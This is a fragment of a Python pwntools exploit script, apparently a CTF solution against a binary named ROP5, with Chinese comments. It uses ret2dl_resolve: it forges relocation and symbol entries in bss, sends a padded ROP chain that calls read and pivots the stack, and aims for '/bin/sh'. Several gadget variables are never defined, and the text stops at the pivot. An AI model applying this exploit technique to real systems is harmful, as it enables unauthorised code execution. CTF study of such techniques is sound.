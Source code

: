 ```python


cmd = "/bin/sh"
plt_0 = 0x08048380 				# objdump -d -j .plt ROP5

rel_plt = 0x08048330 				# objdump -s -j .rel.plt ROP5

stack_size = 0x200
bss_addr = elf.bss() 
base_stage = bss_addr + stack_size

puts_got = elf.got['puts'] 

dynsym = 0x080481d8 				#objdump -d -j .dynsym ROP5

dynstr = 0x08048278 				#objdump -d -j .dynstr ROP5

#################################################

index_offset = (base_stage + 28) - rel_plt
fake_sym_addr = base_stage + 36
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
fake_sym_addr = fake_sym_addr + align
index_dynsym = (fake_sym_addr - dynsym) / 0x10
#################################################

versym = elf.dynamic_value_by_tag("DT_VERSYM")

while True:							#通过改变base_stage的方式来调整偏移，让ndx为0
	
	fake_ndx = u16(elf.read(versym+index_dynsym*2,2)) 	#ndx定义时与0x7fff按位与运算，故ndx应该为两个字节
	
	if fake_ndx != 0:
		base_stage += 0x10
		#################################################
		index_offset = (base_stage + 28) - rel_plt
		fake_sym_addr = base_stage + 36
		fake_sym_addr = fake_sym_addr + align
		index_dynsym = (fake_sym_addr - dynsym) / 0x10
		#################################################
		
		continue
	else :
		break 


r = process('./ROP5')
#r  = remote("47.103.214.163", 20700)

#gdb.attach(r,'b *0x0804855B')


r.recvuntil('Are you the LEVEL5?\n')
payload = 'A' * offset
payload += p32(read_plt) 				# 读100个字节到base_stage

payload += p32(ppp_ret)
payload += p32(0)
payload += p32(base_stage)
payload += p32(100)
payload += p32(pop_ebp_ret) 			
payload += p32(base_stage)
payload += p32(leave_ret) 				#进行栈迁移
```